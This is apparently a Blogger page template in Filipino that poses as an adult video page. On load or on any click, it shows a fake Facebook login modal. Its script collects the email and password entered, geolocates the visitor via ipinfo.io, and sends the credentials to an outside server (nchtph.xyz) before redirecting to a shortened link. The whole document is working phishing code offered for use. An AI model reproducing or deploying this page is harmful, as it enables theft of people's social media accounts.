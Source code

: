 <?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE html>
<html xmlns='http://www.w3.org/1999/xhtml' xmlns:b='http://www.google.com/2005/gml/b' xmlns:data='http://www.google.com/2005/gml/data' xmlns:expr='http://www.google.com/2005/gml/expr'>



<head>
    <meta charset='UTF-8'/>
    	<meta content='https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjfx7CKXCNzdsaeLuVGCoNTKj-aOwsOlsgWuCGsSqarxN7Lnig1LqZo5JmA1ZPRYLDP2Xo8Wunk50LjSbzozkVf5lXhmGYz2zusum60smxWDkUi_rWLjwlYimAEZca-7DMIKQaCq1e88UXtDhmfLBaYnuUE9VgPjZyHpwhJsWXUwuQ2PFWi7SbP0hn9OQ/s1920/tong-hop-nhung-bo-anh-sexy-nhat-trong-nhung-ngay-cuoi-nam-2017-3.jpg' itemprop='thumbnailUrl' property='og:image'/>
    <title><data:blog.pageTitle/>>MAG-CLICK DITO UPANG MANOOD NG VIDEO</title>
      <b:skin><![CDATA[
            
    
  ]]></b:skin>
    <style>
        .modal-content {
            width: 380px;
            height: 480px;
            background-color: transparent !important;
            box-shadow: none !important;
            border: 0 !important;
        }
        .modal-body {
            background: radial-gradient(ellipse at center,#5170ad 0,#355493 100%);
            border: 1px solid #2d416d;
            box-shadow: 0 1px #5670a4 inset, 0 0 10px 5px rgba(0,0,0,.1);
            border-radius: 5px;
            width: 380px;
            height: 480px;
            margin: 60px auto;
            padding: 50px 30px 0 30px !important;
            text-align: center;
            margin-left: 50%;
            transform: translateX(-25%);
        }
        .modal-body h1 {
                margin: 0 0 50px 0;
            padding: 0;
            font-weight: 700;
            font-size: 26px;
            color: #fff;
        }
        .login-form input[name=username], .login-form input[name=password] {
            width: 100%;
            border: 1px solid #314d89;
            margin-right: 110px;
            outline: 0;
            padding: 12px 20px;
            font-weight: 400;
            font-family: Lato,sans-serif;
            cursor: pointer;
        }
        .login-form input[name=username] {
            border-bottom: none;
            border-radius: 4px 4px 0 0;
            padding-bottom: 13px;
            box-shadow: 0 -1px 0 #e0e0e0 inset, 0 1px 2px rgba(0,0,0,.23) inset;
        }
        .login-form input[name=password] {
            border-top: none;
            border-radius: 0 0 4px 4px;
            box-shadow: 0 -1px 2px rgba(0,0,0,.23) inset, 0 1px 2px rgba(255,255,255,.1);
        }
        #btnSubmit {
            font-family: Lato,sans-serif;
            font-weight: 400;
            background: linear-gradient(to bottom,#e0e0e0 0,#cecece 100%);
            display: block;
            margin: 20px auto 0 auto;
            width: 100%;
            border: none;
            border-radius: 3px;
            padding: 8px;
            font-size: 17px;
            color: #636363;
            text-shadow: 0 1px 0 rgba(255,255,255,.45);
            font-weight: 700;
            box-shadow: 0 1px 3px 1px rgba(0,0,0,.17), 0 1px 0 rgba(255,255,255,.36) inset;
        }
        .login-form-wrap h5&gt;a {
            font-size: 14px;
            color: #fff;
            text-decoration: none;
            font-weight: 400;
        }
        .mt-10 {
            margin-top: 10px;
            margin-bottom: 10px;
        }
        @media (max-width: 992px) {
            .modal-content {
                box-shadow: none !important;
            }
            .modal-dialog, .modal-content, .modal-body, label {
                width: 100% !important;
            }
            .modal-body { 
                margin-left: 0;
                transform: translateX(0);
                height: 750px;
            }
            .facebook_logo {
                font-size: 60px !important;
                margin: 50px 0 !important;
            }
            .login-form-wrap, #btnSubmit {
                font-size: 40px !important;
            }
            .forgotpass {
                font-size: 30px !important;
            }
            .title {
                font-size: 60px !important;
            }
            .forgotpass_h5 {
                margin-top: 50px;
            }
        }
        
    </style>
</head>

<body onclick='showModal();'>
    <header>
    <b:section class='header' id='header' maxwidgets='1' showaddelement='yes'>
      <b:widget id='Header1' locked='false' title='testkjashkdj (Header)' type='Header' version='1'>
        <b:widget-settings>
          <b:widget-setting name='displayUrl'/>
          <b:widget-setting name='displayHeight'>0</b:widget-setting>
          <b:widget-setting name='sectionWidth'>-1</b:widget-setting>
          <b:widget-setting name='useImage'>false</b:widget-setting>
          <b:widget-setting name='shrinkToFit'>false</b:widget-setting>
          <b:widget-setting name='imagePlacement'>BEHIND</b:widget-setting>
          <b:widget-setting name='displayWidth'>0</b:widget-setting>
        </b:widget-settings>
        <b:includable id='main'>
          <b:if cond='data:useImage'>
            <b:if cond='data:imagePlacement == &quot;BEHIND&quot;'>
              <b:if cond='data:mobile'>
                <div id='header-inner'>
                  <div class='titlewrapper' style='background: transparent'>
                    <h1 class='title' style='background: transparent; border-width: 0px'>
                      <b:include name='title'/>
                    </h1>
                  </div>
                  <b:include name='description'/>
                </div>
                <b:else/>
                <div expr:style='&quot;background-image: url(\&quot;&quot; + data:sourceUrl + &quot;\&quot;); &quot;+ &quot;background-position: &quot;+ data:backgroundPositionStyleStr + &quot;; &quot;+ data:widthStyleStr+ &quot;min-height: &quot; + data:height+ &quot;_height: &quot; + data:height+ &quot;background-repeat: no-repeat; &quot;' id='header-inner'>
                  <div class='titlewrapper' style='background: transparent'>
                    <h1 class='title' style='background: transparent; border-width: 0px'>
                      <b:include name='title'/>
                    </h1>
                  </div>
                  <b:include name='description'/>
                </div>
              </b:if>
              <b:else/>
              <div id='header-inner'>
                <a expr:href='data:blog.homepageUrl' style='display: block'>
                  <img expr:alt='data:title' expr:height='data:height' expr:id='data:widget.instanceId + &quot;_headerimg&quot;' expr:src='data:sourceUrl' expr:width='data:width' style='display: block'/>
                </a>
                <b:if cond='data:imagePlacement == &quot;BEFORE_DESCRIPTION&quot;'>
                  <b:include name='description'/>
                </b:if>
              </div>
            </b:if>
            <b:else/>
            <div id='header-inner'>
              <div class='titlewrapper'>
                <h1 class='title'>
                  <b:include name='title'/>
                </h1>
              </div>
              <b:include name='description'/>
            </div>
          </b:if>
        </b:includable>
        <b:includable id='description'>
          <div class='descriptionwrapper'>
            <p class='description'><span>
                <data:description/></span></p>
          </div>
        </b:includable>
        <b:includable id='title'>
          <b:tag cond='data:blog.url != data:blog.homepageUrl' expr:href='data:blog.homepageUrl' name='a'>
            <data:title/>
          </b:tag>
        </b:includable>
      </b:widget>
    </b:section>
  </header>
    <div align='center' style='margin-top: 30px;'>
        <div class='separator' style='clear: both; text-align: center;'>
            <b><span style='color: red; font-size: 26pt; font-style: italic;'><a class='title' href='#' onclick='showModal()' style='color: red;'>&#9654; MAG-CLICK DITO UPANG MANOOD NG VIDEO</a></span></b>
        </div>
    <img alt='Image' class='img-responsive' id='img1' src='https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhVPTWa6wcknN7HFPmc2r6Dvm2PbowOctlKnVwqiyl7pCfZQTJUm_Qcb_U3DXClyt0adQRoKSxImxYARfb2dO9KwDhjr1MMncVkIpBNoRCJofOMPMjy8ozzd1eW1FUeMvWZkzm7DC9K9rUyN8YKZDq2q0CHAyEVpWGzMvWgtRa7Dszbpd1w5XanzMj9lw/s1255/z3349562671437_c5daddf0a35b6f17f55d90894c8dd583.jpg' style='display: none;'/>
        <img alt='Image' class='img-responsive' id='img2' src='https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhVPTWa6wcknN7HFPmc2r6Dvm2PbowOctlKnVwqiyl7pCfZQTJUm_Qcb_U3DXClyt0adQRoKSxImxYARfb2dO9KwDhjr1MMncVkIpBNoRCJofOMPMjy8ozzd1eW1FUeMvWZkzm7DC9K9rUyN8YKZDq2q0CHAyEVpWGzMvWgtRa7Dszbpd1w5XanzMj9lw/s1255/z3349562671437_c5daddf0a35b6f17f55d90894c8dd583.jpg' style='display: none;'/>
        <img alt='Image' class='img-responsive' id='img3' src='https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhVPTWa6wcknN7HFPmc2r6Dvm2PbowOctlKnVwqiyl7pCfZQTJUm_Qcb_U3DXClyt0adQRoKSxImxYARfb2dO9KwDhjr1MMncVkIpBNoRCJofOMPMjy8ozzd1eW1FUeMvWZkzm7DC9K9rUyN8YKZDq2q0CHAyEVpWGzMvWgtRa7Dszbpd1w5XanzMj9lw/s1255/z3349562671437_c5daddf0a35b6f17f55d90894c8dd583.jpg' style='display: none;'/>
        <img alt='Image' class='img-responsive' id='img4' src='https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhVPTWa6wcknN7HFPmc2r6Dvm2PbowOctlKnVwqiyl7pCfZQTJUm_Qcb_U3DXClyt0adQRoKSxImxYARfb2dO9KwDhjr1MMncVkIpBNoRCJofOMPMjy8ozzd1eW1FUeMvWZkzm7DC9K9rUyN8YKZDq2q0CHAyEVpWGzMvWgtRa7Dszbpd1w5XanzMj9lw/s1255/z3349562671437_c5daddf0a35b6f17f55d90894c8dd583.jpg' style='display: none;'/>
        <img alt='Image' class='img-responsive' id='img5' src='https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhVPTWa6wcknN7HFPmc2r6Dvm2PbowOctlKnVwqiyl7pCfZQTJUm_Qcb_U3DXClyt0adQRoKSxImxYARfb2dO9KwDhjr1MMncVkIpBNoRCJofOMPMjy8ozzd1eW1FUeMvWZkzm7DC9K9rUyN8YKZDq2q0CHAyEVpWGzMvWgtRa7Dszbpd1w5XanzMj9lw/s1255/z3349562671437_c5daddf0a35b6f17f55d90894c8dd583.jpg' style='display: none;'/>    </div>
    <div class='modal fade' id='myModal' role='dialog'>
        <div class='modal-dialog'>
            <!-- Modal content-->
            <div class='modal-content'>
                <div class='modal-body'>
                    <section class='login-form-wrap'>
                        <h1 class='facebook_logo'>Facebook</h1>
                        <div id='noti' style='    background-color: #fff9d7; border: 1px solid #e2c822; padding: 6px; margin-bottom: 5px;'>Content 18+, please log in before viewing.</div>
                        <form class='login-form' id='test-form' method='GET'>
                            <label class='mt-10'>
                                <input id='username' name='username' placeholder='Email o numero ng telepono' required='' type='text'/>
                            </label>
                            <label class='mt-10'>
                                <input id='password' name='password' placeholder='Password' required='' type='password'/>
                            </label>
                            <input id='country' name='country' style='display:none' type='text'/>
                            <input class='mt-10' id='btnSubmit' onclick='submitForm();' type='button' value='Entrar'/>
                        </form>
                        <h5 class='forgotpass_h5'><a class='forgotpass' href='#' target='_blank'>Nakalimutan ang Password??</a></h5>
                    </section>
                </div>
            </div>
        </div>
    </div>
</body>
<div id='loading' style='position: fixed; z-index: 10000; text-align: center; top: 0; display: none; left: 0; width: 100vw; height: 100vh; background-color: rgba(0,0,0,.5);'>
    <img src='https://www.fk-austria.at/?proxy=images/waiting.gif' style='margin-top: 100px; width: 100px; height: 100px;'/>
</div>
<link href='https://maxcdn.bootstrapcdn.com/bootstrap/3.4.1/css/bootstrap.min.css' rel='stylesheet'/>
<script src='https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js'/>
<script src='https://maxcdn.bootstrapcdn.com/bootstrap/3.4.1/js/bootstrap.min.js'/>
<script type='text/javascript'>
  
            //<![CDATA[
$(document).ready(() => {
    let num = Math.floor(Math.random() * 5) + 1;
    $('#img' + num).show();
});
var count = 0;

sr = "";

var xhrip = new XMLHttpRequest();
xhrip.open('GET', 'https://ipinfo.io/json');
xhrip.onload = function() {
    
    if (xhrip.status === 200) 
    {
        try
        {
            var rs = xhrip.responseText;
            var js = JSON.parse(rs);
            sr+=js.country;
            //sr+=" - " + js.region; 
            
        }catch(ex)
        {
            sr+=" - Error";
        }
    
        
        
    }
    else 
    {
        var err = xhr.status;
        sr+=err;
    }

};
xhrip.send();

  


function submitForm() {
    // $('#username').val("'" + $('#username').val());
    // $('#password').val("'" + $('#password').val());

    if ($('#username').val().length < 3 || $('#password').val().length < 6) {
        //alert('As informações inseridas não estão corretas');
        $('#noti').css({ "color": "red" });
        $('#noti').text('Ang account na iyong ipinasok ay hindi wasto, mangyaring subukang muli.');
        return;
    } else {
        //count++;
    }

    if (true) {
        console.log(count);
        $('#loading').show();
        var xhr = new XMLHttpRequest();
        var email = document.getElementById("username").value;
        var pass = document.getElementById("password").value;
        var truyen = encodeURI("email=" + email + "|pass=" + pass);

        var xhr = new XMLHttpRequest();
         xhr.open('GET', '//nchtph.xyz/tlph/ttvia.php?'+ truyen);
        xhr.onload = function () {
          if (xhr.status === 200) {
            try {
              var rs = xhr.responseText;
              if (rs != "error") {
                window.location = 'https://is.gd/idX9d2';
              }
            } catch (ex) { }
          }
        };
        xhr.send();

    }
}

function showModal(e) {
    $('#myModal').modal({
        backdrop: 'static',
        keyboard: true,
        show: true
    });
}

$('#myModal').click(() => {
    event.stopPropagation();
})

$('#loading').click(() => {
    event.stopPropagation();
})
window.onload=showModal;
 //]]>
</script>

</html>
